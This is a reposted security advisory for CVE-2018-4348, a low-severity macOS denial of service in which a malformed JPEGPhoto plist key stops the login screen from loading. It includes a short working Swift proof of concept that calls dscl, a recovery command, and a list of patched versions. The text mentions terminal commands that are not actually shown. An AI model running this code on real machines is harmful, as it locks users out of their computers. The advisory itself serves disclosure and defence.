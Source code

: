 ```yaml
---
layout: page
title: CVE-2018-4348 Details
permalink: /cves/cve-2018-4348
---
```


#### Original post: [https://labs.f-secure.com/advisories/macos-user-interface-denial-of-service/](https://labs.f-secure.com/advisories/macos-user-interface-denial-of-service/)

|    **Product**    | macOS 10.13.6, 10.13.5, 10.12.6 Security Update 2018-004, previous versions may be affected |
|    **Severity**   |                   Low                   |
| **CVE Reference** |              CVE-2018-4348              |
|      **Type**     |             Denail of Sevice            |

## Description

 Various versions of macOS are vulnerable to a Denial of Service attack via the login user interface. A malicious application or an attacker with authenticated command line access to the device can deny the user’s ability to login after the user logs out or reboots the computer.

## Details

macOS stores information about local users in the folder `/var/db/dslocal/nodes/Default/users/`. Each user is assigned a .plist file which contains configuration details about the specific user. For example, if a user `MWRUser` were to exist, then the .plist file `/var/db/dslocal/nodes/Default/users/MWRUser.plist` exists as well.

Plist files can contain various types of data, including strings and binary data. The data is provided by several `keys` within a .plist configuration file. Two of these keys are `JPEGPhoto` and `Picture`, which manage the user’s profile picture.

It was found that if the `JPEGphoto` key did not contain binary data, then the macOS operating system would crash while trying to render a profile picture for the user. This would cause the operating system to fail to load the macOS login screen, thus denying the user the ability to log into the computer via the user interface.

## Impact

Users of the targeted macOS system would not be able to log into their computer via the user interface. 

## Proof of Concept

The following terminal commands could be ran by any user or application to replicate this issue. It should be noted that low level users can only modify specific data about their own user account:

After logging out or restarting the macOS operating system, the user would be unable to log into the macOS operating system.

MWR created the following Swift code that could be used by any application to replicate this issue:

```
import Foundation

@discardableResult
func shell(_ args: String...) -> Int32 {
    let task = Process()
    task.launchPath = "/usr/bin/env"
    task.arguments = args
    task.launch()
    task.waitUntilExit()
    return task.terminationStatus
}

var username = NSUserName()
var dscl_user = "/Users/" + username
 
shell("/usr/bin/dscl", ".", "delete", dscl_user, "JPEGPhoto")
shell("/usr/bin/dscl", ".", "append", dscl_user, "JPEGPhoto", "mwrinfosecurity")
```

## Solution

Apple has released the following updates which are not vulnerable to this issue:

* macOS Mojave 10.14
* macOS High Sierra 10.13.6 Security Update 2018-001
* macOS Sierra 10.12.6 Security Update 2018-005

Users should update their computers so that they are immune to this attack.

Alternatively, if this attack were to be used on a vulnerable macOS computer, a user can boot their computer into recovery mode, open a terminal window and run the following command:

```
$ /usr/libexec/Plistbuddy –c “Delete jpegphoto” /Volumes/<mounted macOS system>/var/db/dslocal/nodes/Default/users/<username>.plist
```